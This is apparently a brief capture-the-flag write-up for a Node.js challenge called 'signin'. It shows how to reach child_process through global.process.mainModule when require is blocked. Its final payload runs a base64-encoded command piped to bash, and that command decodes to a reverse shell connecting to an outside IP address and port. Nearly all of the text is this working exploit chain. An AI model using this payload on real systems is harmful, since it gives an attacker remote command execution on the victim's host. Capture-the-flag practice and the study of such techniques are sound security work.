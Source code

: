 ## signin

You can't use require  but u can use global.process.mainModule.constructor._load('child_process').exec('calc')

finally payload

```

global.process.mainModule.constructor._load('child_process').exec('echo YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMjQuMjIxLjE2Mi42MS84MDA5IDA+JjE=|base64 -d|bash');
```

